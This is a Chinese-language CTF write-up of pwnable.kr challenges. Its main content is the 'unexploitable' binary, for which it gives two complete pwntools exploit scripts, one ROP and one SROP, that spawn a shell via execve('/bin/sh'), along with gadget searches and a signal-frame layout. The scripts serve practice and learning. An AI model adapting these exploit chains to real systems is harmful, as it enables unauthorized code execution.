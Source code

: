 ```yaml
---
title: CTF | pwnable-kr-writeup
date: 2018-09-21 10:12:26
tags: 
---
```


### unexploitable


这道题可以用不同方法
题目给了源码

```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}
```
看一下保护：

```
  Arch:     amd64-64-little
  RELRO:    Partial RELRO
  Stack:    No canary found
  NX:       NX enabled
  PIE:      No PIE (0x400000)
```

第一反应是用return to dl reslove，但是仔细一看没法做内存泄漏。因为64位需要把debug位置0，但是无法得到link_map的地址，所以这条路走不通。 嗯？？对于这里不是很明白。。。
在ida中看不到 syscall 的gadget ,可以用 `ropper` 工具搜一下, 
看到网上有人说：
`ROPgadget` 似乎存在一个缺陷，无法把单独的 `syscall` 识别成一个 `gadget` 。所以用 ropper[https://github.com/sashs/Ropper]，通过 `ropper`  搜索到了一个 `syscall`

搜嘎！
```c
yuuoniy@yuuoniy-virtual-machine:~/Desktop/201809$ ropper2 --file unexploitable --search "syscall"
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: syscall

[INFO] File: unexploitable
0x0000000000400560: syscall; 
```
read的返回值是其成功读取的字符数，而i386/amd64的返回值一般保存在eax/rax中，所以可以通过 read 控制 eax
`ropper2 --file unexploitable --all` 查看所有 gadgets 
没法控制 rdi? 只能控制 edi? 没法控制 rdx还是可以的...
可以找到 `gadgets`..

#### 直接ROP：
利用 `syscall` 调用 `execve("/bin/sh",0,0) ``rax` 为 `59` .
分别设置` rdi rsi rdx`,通过 `read` 设置 `rax` 
就是 `__libc_csu_init` 的通用 gadgets 呀 ！！执行 `gadget1` 再执行 `gadget2`


思路：
1. 通过栈溢出覆盖返回地址，调用 `read` 将 `payload` 和 '/bin/sh' 写入字符串
2. 执行第二段 `payload` ，控制 `RAX` ，利用 `syscall` 执行 `execve("/bin/sh")`

首先要找到读入的地址，在栈上欸,我们设置为 `bss` 段的地址

学习一下别人的 exp。。。
有几个地方不是很明白...关于 `bss_base` 的地址..以及 `payload` 构造时的 `padding` 
疑问：`padding` 为什么是0x38?
```python
from pwn import *

sh = process("./unexploitable")

bss_base = 0x000601028+0x200
sh_addr = 0x000601028+0x400

elf = ELF('./unexploitable')

sys_addr = 0x00400560
pop_rbp_ret=0x00400512
lea_ret = 0x00400576  #leave  ; ret
gadget1 = 0x004005e6 #
gadget2 = 0x004005d0

def call_function(call_addr,arg1,arg2,arg3): 
    payload = ""
    payload +=p64(gadget1) # rsp
    payload +='a'*8 
    payload += p64(0)+p64(1) # rbx rbp
    payload +=p64(call_addr)+p64(arg1)+p64(arg2)+p64(arg3)+p64(gadget2) # RIP=R12 RDI=R13 R14=RSI RDX=R16 
    payload += 'c'*0x38 #padding
    return payload

pay = 'a'*0x10+p64(bss_base) 
pay += call_function(elf.got['read'],0,bss_base,0x200)
pay += p64(pop_rbp_ret)+p64(bss_base)+p64(lea_ret)

pay2 = p64(bss_base+0x8)
pay2 += call_function(elf.got['read'],0,sh_addr,0x200)
pay2 += call_function(sh_addr+0x10,sh_addr,0,0)

pay3 = '/bin/sh\x00'.ljust(0x10,'b')
pay3 +=p64(sys_addr)
pay3 = pay3.ljust(59,'d')

sleep(3)
raw_input()
sh.send(pay)
raw_input()
sh.send(pay2)
raw_input()
sh.send(pay3)

sh.interactive()
```
#### SROP
我们再来学习一下这道题的SROP利用方式
思路：构造 fake signal frame 写入内存。然后将 RSP 指向这段空间，再发送 rt_sigreturn 
frame 布局
```
  Signal Frame
+-------------------------+-------------------------+
|        rt_sigreturn     |         uc_flags        |
+-------------------------+-------------------------+
|          &uc            |       uc_stack.ss_sp    |
+-------------------------+-------------------------+
|    uc_stack.ss_flags    |    uc_stack.ss_size     |
+-------------------------+-------------------------+
|          r8             |           r9            |
+-------------------------+-------------------------+
|          r10            |           r11           |
+-------------------------+-------------------------+
|          r12            |           r13           |
+-------------------------+-------------------------+
|          r14            |           r15           |
+-------------------------+-------------------------+
|          rdi            |           rsi           |
+-------------------------+-------------------------+
|          rbp            |           rbx           |
+-------------------------+-------------------------+
|          rdx            |           rax           |
+-------------------------+-------------------------+
|          rcx            |           rsp           |
+-------------------------+-------------------------+
|          rip            |           eflags        |
+-------------------------+-------------------------+
|        cs/gs/fs         |           err           |
+-------------------------+-------------------------+
|         trapno          |         oldmask         |
+-------------------------+-------------------------+
|          cr2            |          %fpstate       |
+-------------------------+-------------------------+
|       __reserved        |         sigmask         |
+-------------------------+-------------------------+

```

这里 cs 为什么要设置为 0x33：避免 segfault
相关链接中还有很巧妙的exp
```python
from pwn import *

sh = process("./unexploitable")

elf = ELF('./unexploitable')

sys_addr = 0x400560  
junk = 0xdeadbeef
pop_rbp_ret = 0x400512
read_ret = 0x40055b 
bss_addr = elf.bss()
rbp_base = bss_addr+0x10
sh_str_addr = rbp_base+0x20+8+ 0x100 # 0x100 is the offset of binsh in sig_frame

sig_frame = p64(sys_addr)+p64(0) # rt_sigreturn
sig_frame += p64(0)*12 
sig_frame += p64(sh_str_addr)+p64(0) # rdi, rsi
sig_frame += p64(0)*2
sig_frame += p64(0)+p64(0x3b)  # rdx, rax
sig_frame += p64(0)*2 
sig_frame += p64(sys_addr)+p64(0)# rip
sig_frame += p64(0x33)+p64(0)# cs why 0x33
sig_frame += p64(0)*6
sig_frame += '/bin/sh\x00'

pay1 = 'a'*0x10  
pay1 += p64(rbp_base)  # point rbp to .bss and read again  rbp = rbp_base+0x10-0x10 = bss_addr
pay1 += p64(read_ret)  #  lea     rax, [rbp+buf]

pay2 = 'a'*0x10
pay2 += p64(rbp_base+0x20)+p64(read_ret) # prepare signal frame ,and read to rbp(rbp_base+0x10)

pay2 += p64(junk)*2
pay2 += p64(junk)+sig_frame 

pay3 = 'b'*15  # rax=15

sleep(3)
sh.send(pay1)
sleep(0.3)
sh.send(pay2)
sleep(0.3)
sh.send(pay3)

sh.interactive()

```



相关链接：
http://weaponx.site/2017/02/28/unexploitable-Writeup-pwnable-kr/
http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-unexploitable/
https://bbs.ichunqiu.com/thread-44068-1-1.html
https://cubarco.org/blog/2015/12/writeup-pwnable-unexploitable/

### syscall
本题提供了一个自编写的内核模块源码，添加 sys_upper，把字符串中的小写改为大写

参考链接：
http://rk700.github.io/2016/11/11/pwnable-kr-syscall/ 推荐
https://www.w0lfzhang.com/2017/04/27/pwnable-syscall/  推荐
https://etenal.me/archives/972
https://cubarco.org/blog/2015/12/writeup-pwnable-syscall/
http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-syscall/

### unlink
再来学习一下 unlink 每次都忘记 5555
明天要交的论文现在还没写....emmmm 明天再写好了

